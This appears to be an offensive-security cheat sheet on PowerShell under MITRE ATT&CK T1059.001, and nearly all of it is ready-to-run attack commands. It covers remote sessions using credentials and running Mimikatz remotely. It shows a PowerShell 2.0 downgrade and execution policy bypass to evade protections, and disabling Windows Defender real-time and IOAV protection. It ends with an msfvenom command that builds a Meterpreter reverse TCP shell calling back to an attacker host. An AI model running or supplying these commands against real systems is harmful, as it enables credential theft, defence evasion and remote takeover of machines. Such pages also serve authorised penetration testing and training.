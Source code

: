```yaml
---
description: MITRE ATT&CK, Execution, Technique T1059.001
---
```


# PowerShell

### Basic Usage

#### Creating a PowerShell Session

**Background:** We can establish a persistent connection in PowerShell using Enter-PSSession. This can make life significantly easier and reduce overhead.

```bash
New-PSSession -ComputerName [IP] -Credential [USER]
Enter-PSSession -Session $#
```

#### Executing Scripts Remotely

**Background:** We can execute scripts remotely with PowerShell.

```bash
Invoke-Command -Session $# -FilePath C:\Users\Parzival\Desktop\Mimikatz.exe
```

### Enumeration

#### Enumerate Installed Versions

**Background:** This can be helpful when determining if a PowerShell downgrade attack will work.

```bash
(Get-ItemProperty HKLM:\SOFTWARE\Microsoft\PowerShell\*\PowerShellEngin e -Name PowerShellVersion).PowerShellVersion
```

This is important as if PowerShell 2.0 is installed then we can bypass multiple security protections enabled in more recent PowerShell Version 5 releases:

```bash
powershell.exe -Version 2
```

### Offensive PowerShell

#### Bypassing Execution Policy

**Information:** Execution policies can be disabled in multiple ways. It is not a sufficient security protection to prevent unsigned scripts from being loaded.

```bash
powershell.exe -exec bypass 
Set-ExecutionPolicy -ExecutionPolicy Bypass -Scope Process
```

#### Bypassing Real-time Monitoring

```bash
Powershell Set-MpPreference -DisableRealtimeMonitoring $true
Powershell Set-MpPreference -DisableIOAVProtection $true
```

#### Meterpreter Shell

```bash
msfvenom -p cmd/windows/powershell/meterpreter/reverse_tcp LHOST=$ip LPORT=$port
```
